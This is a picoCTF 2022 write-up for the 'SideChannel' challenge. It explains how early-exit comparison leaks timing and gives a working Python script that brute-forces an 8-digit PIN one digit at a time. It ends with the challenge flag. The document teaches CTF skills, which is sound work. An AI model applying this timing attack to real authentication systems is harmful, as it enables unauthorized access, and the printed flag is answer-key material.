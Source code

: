 ```yaml
---
title: SideChannel
description: Recovery of a PIN code using a timing based side channel attack
summary: Recovery of a PIN code using a timing based side channel attack
date: 2022-03-30
tags:
- Forensic
ctf:
- picoCTF 2022
draft: false
---
```


For this challenge we have a binary listening on a server asking for an 8 digits PIN code. We need to find it in order to get the flag.<br>
A copy of the binary running on the server is given to us, using the same PIN code.

![](demo.png)

As the challenge is in the category forensic and not reverse engineering, and because the challenge is named "side channel", I guessed it wasn't supposed to be done by reversing the binary. Still, I opened it in IDA just to see how it looks like, and it indeed looked very painful.

A hint also explicitly says reversing won't be helpful.

> Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.

So, the concept of the challenge is to use a timing basd side channel attack to determine the PIN characters.

The concept is that the program will not run the same amount of time depending on our input. That's because if the program is doing a character by character comparison, it will take a different amount of time depending on how much characters are right, because the program will stop the comparison when it finds the first non matching character.

So we can exploit this behavior by bruteforcing one character at a time.<br>
If the first character of our input is equal to the first character of the PIN, the program will run longer than if not. Se we can try a PIN code beginning with every digit and compare their execution time to figure out the one that's longer than the others.<br>
We can the apply the same technique to determine the other characters by bruteforcing them one after the other.

You can find below the script I used for this purpose. I chose to run the program multiple times for each character and take the average of the values in order to get the most precise values and be sure to get the one that is not like the others.

```py
import subprocess
from time import perf_counter_ns

def determine_nth_char_of_pin(known_prefix):
    times = [[], [], [], [], [], [], [], [], [], []]
    
    for i in range(5):
        for i in range(10):
            proc = subprocess.Popen('./pin_checker', stdin = subprocess.PIPE, stdout = subprocess.DEVNULL)
            
            t1 = perf_counter_ns()
            proc.communicate(known_prefix.encode("utf-8") + str(i).encode("utf-8") + b"0" * (8 - (len(known_prefix) + 1)))
            t2 = perf_counter_ns()

            times[i].append(t2 - t1)
            
    for i in range(len(times)):
        times[i] = sum(times[i]) / len(times[i])

    print(f"Average execution times for each digit: {times}")

    i = 0
    n = 0
    for j, m in enumerate(times):
        if m > n:
            n = m
            i = j
    
    return i, n

known = ""
for i in range(8):
    found = str(determine_nth_char_of_pin(known)[0])
    known += found
    print(f"The character {i + 1} is {found}")

print("PIN CODE =", known)
```

Due to the huge amount of processes created and tested, it needed a bit less than 4 minutes on my computer to complete, but it was very satisfying and hyping to see the digits appear one by one.

![](exploit.png)

Once we leaked the PIN code, we can submit it to the online running instance.

![](flag.png)

And with that, we get our flag: `picoCTF{t1m1ng_4tt4ck_6e11b28e}`